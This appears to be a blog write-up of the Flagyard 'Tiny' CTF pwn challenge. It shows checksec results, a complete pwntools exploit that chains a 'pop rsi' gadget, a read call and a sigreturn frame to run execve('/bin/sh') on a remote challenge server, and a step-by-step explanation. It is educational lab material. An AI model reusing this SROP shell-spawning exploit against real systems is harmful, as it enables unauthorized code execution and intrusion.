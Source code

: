 ```yaml
---
title: "Flagyard - Tiny"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
  - CTF
tags:
  - Hacking
  - Walkthrough
  - CTF
  - Flagyard
  - PWN
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Flagyard - Tiny
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Portal:|[Flagyard](https://flagyard.com/)|
|Task:|[Tiny](https://flagyard.com/labs/training-labs/13/challenges/3f614fb4-65b8-48a3-894a-3e918a6d182d)|
|Category:|PWN|

# 01. Description
## Introduction
This task comes from the challenge platform [Flagyard](https://flagyard.com/) and is marked as **easy**. However, the solution requires creative techniques and in-depth knowledge of exploitation concepts. While the binary is small and lacks traditional protections, the limited set of gadgets and syscall handling makes this challenge more intricate than it initially appears.
{: .text-justify}

## Binary Information

### **Checksec Results**
```plaintext
   Arch:       amd64-64-little
   RELRO:      No RELRO
   Stack:      No canary found
   NX:         NX unknown - GNU_STACK missing
   PIE:        No PIE (0x400000)
   Stack:      Executable
   RWX:        Has RWX segments
   Stripped:   No
```

### **LDD Results**
```plaintext
ldd ./tiny
        not a dynamic executable
```

### **Analysis**
- **No external libraries:** The binary is not dynamically linked; it does not use external shared libraries.
- **Built-in functions:** The binary contains internal implementations of `read`, `write`, and a `gadget` symbol. This indicates custom syscall handling.
- **No stack protections:** The binary lacks stack canaries, RELRO, and NX, making exploitation theoretically easier.
- **One useful gadget:** The only usable gadget is `pop rsi; ret`, significantly limiting the available ROP chain options.

---

## Time Spent on the Exploit
I spent several hours working on this solution. Despite the binary being named "tiny," it was far from simple. The challenge does not involve traditional buffer overflow vulnerabilities. Instead, you construct ROP chains directly while supplying data to the binary.
{: .text-justify}
Due to the lack of useful gadgets (with only `pop rsi` being helpful), the exploit heavily relies on `sigreturn` to gain full control over the registers. Crafting the right approach to manipulate syscalls and use a minimal set of gadgets required significant effort and debugging.
{: .text-justify}
---
## Solve in Python
```python
from pwn import *  # Include pwntools library

# Set up context for the exploit
context.update(arch='x86_64', os='linux')  # Set architecture and OS for pwntools
context.terminal = ['wt.exe', 'wsl.exe']   # Use Windows Terminal with WSL

# Load the binary
binary = context.binary = ELF("./tiny", checksec=False)

# Determine whether to connect locally or remotely
if args.REMOTE:
    p = remote('nc 34.252.33.37 32435'.split()[1], 32435)  # Remote connection
else:
    p = process(binary.path)  # Local process

# Gadgets and addresses
pop_rsi = binary.sym["gadget"]          # Resolve the symbol for the pop_rsi gadget
bss = 0x0000000000402008                # Address of the writable .bss section
read = 0x000000000040103c               # Modified read function to ignore unnecessary registers
syscall = 0x000000000040102d            # syscall gadget with ret

# Prepare the SigreturnFrame for sigreturn-oriented programming (SROP)
frame = SigreturnFrame(kernel="amd64")
frame.rax = 0x3b            # Set rax to 59 for execve
frame.rdi = bss             # Set rdi to point to /bin/sh in .bss
frame.rsi = 0x0             # Set rsi to NULL (argv)
frame.rdx = 0x0             # Set rdx to NULL (envp)
frame.rip = syscall         # Set rip to the syscall gadget

# Build the ROP payload
# - Load the .bss address into rsi using pop_rsi
# - Call the read function to write "/bin/sh" into .bss
# - Prepare the sigreturn frame to set registers for execve
payload = (
    p64(pop_rsi) + p64(bss) + p64(read) +  # Load bss into rsi for the read syscall
    p64(syscall) + bytes(frame)           # Trigger the sigreturn syscall with the frame
)

p.sendafter(b"rop me:", payload)          # Send the payload
                                          # Includes:
                                          # - Loading bss into rsi
                                          # - Calling read to populate bss with "/bin/sh"
                                          # - Preparing the sigreturn frame to set registers

p.send(b"/bin/sh" + b"\x00" * 8)          # Send "/bin/sh" to bss and ensure rax = 15 for sigreturn
                                          # Creates the string "/bin/sh" and prepares for execve

p.interactive()                           # Switch to interactive mode to access the shell
```
## Explanation of How the Exploit Works

### **Binary Setup**
The binary lacks standard protections, which makes it theoretically exploitable. However, it compensates for this with very limited gadgets and built-in syscall handling, requiring a creative approach using Sigreturn-Oriented Programming (SROP).
{: .text-justify}
### **Step-by-Step Explanation**
1. **Dynamic Resolution of Gadgets:**
   - The `pop rsi` gadget is dynamically resolved using `binary.sym["gadget"]`. This makes the exploit more robust to changes in the binary.

2. **Writable Memory Section:**
   - The `.bss` section (address `0x402008`) is used as a writable location to store the `/bin/sh` string.

3. **Data Injection (`/bin/sh`):**
   - The string `/bin/sh` is sent in a separate line along with null bytes (`\\x00`). This operation writes `/bin/sh` to `.bss` and sets `rax = 15` (number of bytes read by the `read` syscall).

4. **ROP Chain Execution:**
   - The payload first loads `.bss` into `rsi` and calls `read`. After sending `/bin/sh`, execution "returns" to the main payload in `sendafter`. At this point:
   - A syscall is executed with `rax = 15`, triggering `sigreturn`.
   - The frame on the stack configures the registers for the final `execve` syscall.
![payload](/assets/images/hacking/2025/01/01.png)

5. **Executing the `execve` Syscall:**
   - The `execve` syscall is executed with the configured registers, launching an interactive shell.

### **Key Takeaways**
- This exploit demonstrates the power of SROP in a minimalistic binary with limited gadgets.
- By using the `sigreturn` syscall, full control over all registers is achieved, bypassing the limitations imposed by the binary's design.
- Despite its simplicity in appearance, this binary requires an advanced understanding of syscall behavior and ROP chains to exploit effectively.

## Summary
This was an interesting challenge. It taught me a new technique, patience, and the importance of not giving up. Despite its minimalistic design, the task required a deep understanding of system calls and exploitation strategies, making it a rewarding learning experience.
{: .text-justify}


